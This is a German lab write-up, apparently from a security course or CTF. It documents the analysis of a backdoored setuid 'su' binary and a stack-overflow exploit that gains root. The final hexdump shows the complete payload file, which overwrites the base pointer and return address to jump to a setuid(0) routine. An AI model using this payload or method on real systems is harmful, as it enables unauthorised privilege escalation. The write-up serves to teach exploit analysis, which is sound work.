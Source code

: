 ## Dokumentation des Vorgehens
### Allgemeine Informationen sammeln

1. Die gegebene IP anpingen -> Server ist erreichbar
1. HTTP-Request -> es läuft kein HTTP-Server`
1. `nmap` anwenden: Port 22 (ssh) ist offen
1. Login ist möglich
1. `uname -a`: Allgemeine Informationen zum System: Linux arch 4.5.4-1-ARCH #1 SMP PREEMPT x86_64 GNU/Linux
1. Logs versucht einzusehen: No Permissions
1. Installierte Programme einsehen und analysieren: __30 Minuten__ 
1. Berechtigungen anschauen: Dabei viel auf, dass das Änderungsdatum der `su`-Binary von den anderen abweicht: Zufall
1. Vermutung: Rootkit in der Binary.
1. Einlesen zum Thema Rootkits: [^1][^2][^3]
1. `file` angewendet: su: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a6fdad0603136d4b68ee933c322f7908bbbb775e, stripped
1. `ldd` angewendet: keine Auffälligkeit
1. `su` ausgeführt: keine Auffälligkeit
1. Einlesen zum Thema Stackoverflow: [^4]


### Genauere Analyse
1. Fuzzing auf `su` angewendet: ab einer gewissen Länge -> bash: command not found
 1. Selbes verhalten auf Host-System: Ansatz verworfen
1. `Strings` angewendet:   
    Auffälligkeit:   
    `5f23 %#08lx` => Einbeziehung des ELF-Adressraumes: 0x405f23: __1.3 Stunden__
1. `su --help` ausgeführt: Auffälligkeit -> es gibt ein `-v --verbose` Flag. Dieses Flag wird in der manpage nicht erwähnt.
1. `su -v` ausgeführt: keine Auffälligkeit
1. `su -v 4` ausgeführt: keine Auffälligkeit: user 4 does not exist
1. `strace` ausgeführt: Geht nur bis zur Eingabe des Passworts
1. `strace` auf su process attachen: No permissions
1. Den `strace` output mit dem des Host-Systems verglichen __1.7 Stunden__
1. Mit GDB debuggen: Keine Neuen Informationen: __1 Stunde__
1. Mit Disassembler statisch analysiert (radare2 v.0.10.2)
 1. Main-Wrapper auflösen um die richtige Main-Methode zu finden
 1. Die `richtige` Main Funktion im Assembler analysiert: __6.5 Stunden__
1. `getopt`-Funktion suchen -> 0x4041e6  
    Auffälligkeit: `getopt`-Parameter: `v` erlaubt einen optionalen Parameter
1. `su -vx` ausgeführt: Es wird eine Adresse ausgegeben -> 0x7fffffffeaf0
1. ASLR (Address Space Layout Randomization) ist ausgeschaltet:  
    ```
    $ cat /proc/sys/kernel/randomize_va_space
    0
    ```  
    Auffälliger String könnte die Adresse einer wichtigen Stelle sein.
1. Original `su`-Quelltext angeschaut: Switch-Case über die Parameter __3 Stunden__
1. Mittels Disassembler die Stelle suchen, an der der Adressen-String benutzt wird:   
    0x40416d -> Parameter der `printf`-Funktion an 0x404177.  
    Stellt den '-v'-Fall des Switch-Cases dar.
1. `-v`-Case: nach der Ausgabe  wird eine Funktion aufgerufen:  
    Aufruf: 0x4041e6  
    Funktion: 0x40c2e1
1. Diese Funktion macht File-Handling-stuff.
 1. Zunächst vermutet, es handelt sich nicht mehr um den `-v`-Case.
1. `su -vDatei.txt` ausgeführt: Segmentation fault: __2.0 Stunden__
1. Herausfinden, wie groß die Datei mindestens sein muss, um einen Segmentation fault auszulösen:   
    137 Zeichen; vielleicht sind aber noch weitere Bytes durch Variablen belegt, bevor Base-Pointer und Instruction-Pointer kommen:  
    144 Zeichen bis Base-Peointer: __11.5 Stunden__
1. Mittels der Analyse im Disassembler eine Stelle suchen, die ausgenutzt werden kann: execvp gefunden: 0x404777: __1 Stunde__
1. Die Adresse des Exec-Befehls an Datei.txt anhängen: Keine Veränderung.
1. Analyse der Adress-Ausgabe: Der Basepointer wird ausgegeben.
1. Die Ausgabe von `-v` ist der Basepointer: Dieser muss gesichert werden.
1. Basepointer vor der `execvp`-Adresse in die Datei.txt einfügen. __3 Stunden__
1. `su -vDatei.txt` ausführen: keine Änderung
1. `su -vDatei.txt ls` ausführen: `ls` wird mit den normalen User-Rechten ausgeführt. 
1. Weitersuchen im Assembler: Funktion oberhalb des Exec-Aufrufs genauer ansehen:  
    Benutzt: 0x404735  
    Funktion: 0x402dd9: 
    __4 Stunden__
1. Die Funktion ruft `setuid` und `setgid` auf (jeweils 0 als Argument):  
    Ersetzen der Exec-Adresse in der Datei mit der Adresse des Funktionsaufrufs (s.o.)
1. `su -vDatei.txt ls` ausführen: `ls`: wird als root ausgeführt __30 Minuten__ 


### Hexdump der Datei

```
$ hexdump --no-squeezing --canonical Datei.txt
00000000  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000010  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000020  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000030  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000040  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000050  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000060  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000070  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000080  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000090  10 eb ff ff ff 7f 00 00  35 47 40                 |........5G@|
0000009b
```

[^1]: de.wikipedia.org/wiki/Rootkit
[^2]: en.wikipedia.org/wiki/Rootkit
[^3]: www.sans.org/reading-room/whitepapers/linux/linux-rootkits-beginners-prevention-removal-901
[^4]: www-scf.usc.edu/~csci530l/downloads/stackoverflow_en.pdf

